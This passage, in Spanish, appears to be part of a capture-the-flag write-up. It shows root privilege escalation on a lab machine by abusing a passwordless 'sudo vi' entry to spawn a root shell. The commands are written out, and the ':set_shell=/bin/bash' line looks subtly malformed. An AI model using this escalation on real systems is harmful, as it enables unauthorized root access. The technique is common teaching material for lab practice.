 ```bash
cd /root
> Permission denied
id
sudo -l
```

Vemos que podemos lanzar 
```bash
 /usr/bin/vi 
```
 como root sin proporcionar contraseña.

Como con vi se puede settear nuevas variables, es muy facil rootear esta maquina

```bash
sudo -u root vi /var/www/html/EEEEEE
:set_shell=/bin/bash
:shell
```

Ya tenemos una consola como root y podemos visualizar la flag
